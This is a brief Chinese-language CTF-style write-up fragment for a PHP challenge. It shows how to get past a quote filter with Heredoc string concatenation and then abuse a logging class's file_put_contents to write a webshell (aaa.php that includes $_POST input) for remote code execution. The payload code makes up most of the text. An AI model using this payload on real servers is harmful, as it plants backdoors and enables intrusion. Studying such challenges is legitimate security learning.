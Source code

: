 单双引号被过滤了，用Heredoc 结构<<<来定义字符串

字符拼接构造payload，然后其他同上，利用模板渲染来rce

这里是用db_class.php这的file_put_contents写马

```php
# render/db_class.php

<?php

error_reporting(0);
class db{
	
	public $log;
	public $sql;

	public function __destruct(){
		$this->log->log($this->sql);
	}

}
class dbLog{
	public $sql;
	public $content;
	public $log;

	public function log($sql){
		$this->content = $this->content.date_format(date_create(),"Y-m-d-H-i-s").' '.$sql.' \r\n';
		file_put_contents($this->log, $this->content,FILE_APPEND);
	}
}
```

```php
1;
$a = <<<hhh
<?php inclu
hhh;
$b = <<<hhh
de $
hhh;
$c = <<<hhh
_POS
hhh;
$d = <<<hhh
T{1}?>
hhh;
$e = <<<hhh
aaa.php
hhh;
$f = clone $db;
$f->log->log=$e;
$f->log->content=$a.$b.$c.$d;
```
